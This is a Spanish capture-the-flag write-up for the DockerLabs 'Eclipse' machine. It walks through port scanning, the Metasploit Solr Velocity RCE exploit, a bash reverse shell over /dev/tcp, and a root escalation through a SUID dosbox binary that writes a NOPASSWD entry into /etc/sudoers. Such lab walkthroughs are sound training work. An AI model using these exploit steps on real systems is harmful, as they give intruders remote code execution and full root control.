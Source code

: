 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Eclipse DockerLabs (intermediate)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip eclipse.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh eclipse.tar
```

Info:

```
stamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-10 12:25 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000024s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Epic Battle
8983/tcp open  http    Apache Solr
| http-title: Solr Admin
|_Requested resource was http://express.dl:8983/solr/
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.53 seconds
```

Si vamos al puerto `8983` vemos que nos carga un software llamado `Solr` por lo que vamos a buscar si contiene alguna vulnerabilidad dicho software.

Antes vamos a ver en que version esta.

```shell
http://172.17.0.2:8983 [302 Found] Country[RESERVED][ZZ], IP[172.17.0.2], RedirectLocation[http://172.17.0.2:8983/solr/]
http://172.17.0.2:8983/solr/ [200 OK] Country[RESERVED][ZZ], IP[172.17.0.2], JQuery[2.1.3], Script, Title[Solr Admin], X-Frame-Options[DENY], X-UA-Compatible[IE=9]
```

No nos da mucha informacion, pero vamos a ver en `metasploit` que vemos.

## Escalate user ninhack

### Metasploit

```shell
msfconsole -q
```

Si buscamos por el software:

```shell
search solr
```

Info:

```
Matching Modules
================

   #   Name                                            Disclosure Date  Rank       Check  Description
   -   ----                                            ---------------  ----       -----  -----------
   0   exploit/linux/http/apache_solr_backup_restore   2024-02-24       excellent  Yes    Apache Solr Backup/Restore APIs RCE
   1   exploit/multi/http/solr_velocity_rce            2019-10-29       excellent  Yes    Apache Solr Remote Code Execution via Velocity Template
   2     \_ target: Java (in-memory)                   .                .          .      .
   3     \_ target: Unix (in-memory)                   .                .          .      .
   4     \_ target: Linux (dropper)                    .                .          .      .
   5     \_ target: x86/x64 Windows PowerShell         .                .          .      .
   6     \_ target: x86/x64 Windows CmdStager          .                .          .      .
   7     \_ target: Windows Exec                       .                .          .      .
   8   auxiliary/scanner/http/log4shell_scanner        2021-12-09       normal     No     Log4Shell HTTP Scanner
   9     \_ AKA: Log4Shell                             .                .          .      .
   10    \_ AKA: LogJam                                .                .          .      .
   11  exploit/linux/http/trendmicro_websecurity_exec  2020-06-10       excellent  Yes    Trend Micro Web Security (Virtual Appliance) Remote Code Execution


Interact with a module by name or index. For example info 11, use 11 or use exploit/linux/http/trendmicro_websecurity_exec
```

Vemos que el que mas nos interesa es el numero `1` que seria `multi/http/solr_velocity_rce` y lo configuramos de la siguiente forma:

```shell
set LPORT <PORT>
set LHOST <IP_HOST>
set RHOSTS <IP_VICTIM>
exploit
```

Info:

```
[*] Started reverse TCP handler on 192.168.120.128:7777 
[*] 172.17.0.2:8983: Authentication not required
[*] Found Apache Solr 8.3.0
[*] OS version is Linux amd64 6.8.11-amd64
[*] Found core(s): 0xDojo
[+] Found Velocity Response Writer in use by core '0xDojo'
[!] params.resource.loader.enabled for core '0xDojo' is set to false.
[*] Targeting core '0xDojo'
[*] params.resource.loader.enabled is false for '0xDojo', trying to update it...
[+] params.resource.loader.enabled is true for core '0xDojo'
[*] Using URL: http://192.168.120.128:8080/WI2zfuBr7/
[*] Sending stage (57971 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.120.128:7777 -> 172.17.0.2:58324) at 2025-01-10 12:35:15 -0500
[*] Server stopped.

meterpreter > getuid
Server username: ninhack
```

## Escalate Privileges

Y vemos que funciona, por lo que haremos lo siguiente, vamos a ver si tiene permisos `SUID` importantes para dicho usuario.

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
2107068     52 -rwsr-xr--   1 root     messagebus    51272 Sep 16  2023 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  2097398     52 -rwsr-xr-x   1 root     root          52880 Mar 23  2023 /usr/bin/chsh
  2097522     48 -rwsr-xr-x   1 root     root          48896 Mar 23  2023 /usr/bin/newgrp
  2097533     68 -rwsr-xr-x   1 root     root          68248 Mar 23  2023 /usr/bin/passwd
  2097585     72 -rwsr-xr-x   1 root     root          72000 Mar 28  2024 /usr/bin/su
  2097459     88 -rwsr-xr-x   1 root     root          88496 Mar 23  2023 /usr/bin/gpasswd
  2097517     60 -rwsr-xr-x   1 root     root          59704 Mar 28  2024 /usr/bin/mount
  2097609     36 -rwsr-xr-x   1 root     root          35128 Mar 28  2024 /usr/bin/umount
  2097392     64 -rwsr-xr-x   1 root     root          62672 Mar 23  2023 /usr/bin/chfn
  2106566   2504 -rwsr-xr-x   1 root     root        2560896 Sep 19  2022 /usr/bin/dosbox
  2106676    276 -rwsr-xr-x   1 root     root         281624 Jun 27  2023 /usr/bin/sudo
```

Vemos un binario interesante que es el siguiente:

Como estamos en `meterpreter` no nos va a dejar abrir el `nano` por lo que haremos lo siguiente:

```shell
shell
bash -c "sh -i >& /dev/tcp/<IP>/<IP> 0>&1"
```

Estaremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y si lo ejecutamos y nos vamos a la escucha obtendremos una shell, por lo que la sanitizaremos.

Sanitizacion de la shell (TTY):

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Y ahora haremos lo siguiente:

```shell
LFILE='/etc/sudoers'
dosbox -c 'mount c /' -c "echo ninhack ALL=(ALL:ALL) NOPASSWD: ALL >c:$LFILE" -c exit
```

Y con esto seremos `root`.
